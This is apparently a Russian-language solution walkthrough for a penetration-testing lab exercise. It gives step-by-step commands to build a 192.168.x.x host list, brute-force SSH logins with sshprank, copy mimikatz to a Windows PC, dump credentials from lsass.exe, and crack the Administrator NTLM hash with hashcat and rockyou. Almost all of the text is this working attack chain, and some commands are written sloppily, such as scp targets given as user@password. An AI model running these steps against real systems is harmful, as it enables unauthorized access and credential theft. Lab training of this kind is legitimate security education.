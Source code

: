 <b>Ход решения</b> <br>
1.1. Для определения список хостов в ssh-пранк запишем их с помощью регулярных выражений в файл: <br>
echo -e 192.168.{0..255}.{0..255}"\n" | sed 's/ //' > hosts.txt<br>
1.2. Запуск sshprank:<br>
./sshprank.py -b hosts.txt -u users.txt –p passwords.txt-v , 
где hosts.txt – список записанных хостов на предыдущем шаге, 
users.txt – список пользователей, которых дали по условию
passwords.txt – список паролей, которые дали по условию
v -- вывод подробной информации<br>
1.3 Логин и пароль должны подобраться, результат в owned.txt
cat owned.txt<br>
2. С помощью утилиты scp доставляем mimikatz на PC1.<br>
2.1. Скачиваем mimikatz на kali<br>
sudo apt install mimikatz (может уже был установлен).<br>
2.2. Через утилиту scp доставляем mimikatz<br>
scp –r  <папка с mimikatz > <имя подобранной учётки>@<Пароль подобранной учётки>:”<любое место на Windows 10>”<br>
3. Находим NTLM администратора (через ssh работает на PC1):<br>
3.1. Подключаемся по ssh на PC1:<br>
ssh <имя подобранной учётки>@<Пароль подобранной учётки><br>
3.2. Извлекаем пароль из процесса lsass.exe :<br>
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> c:\tools\mimikatz\output.txt<br>
3.3. Закрываем ssh-подключение<br>
. CTR+C – <br>
3.4. Доставляем c:\tools\mimikatz\output.txt на kali для последующего брудфорса.<br>
Scp  <имя подобранной учётки>@<Пароль подобранной учётки>”c:\tools\mimikatz\output.txt” <место работы пользователя на kali>.<br>
4. Подбор пароля (уже на kali).<br>
4.1 Находим в выводе output.tx NTLM-хэш Administrator и запишим его в файл JustTheHashes.txt<br>
4.2 Расшифровка хэша с помощью hashcat: hashcat -m 1000 JustTheHashes.txt rockyou.txt --force – куда запишется найденный пароль и другое.<br>
Найденный пароль и есть ответ.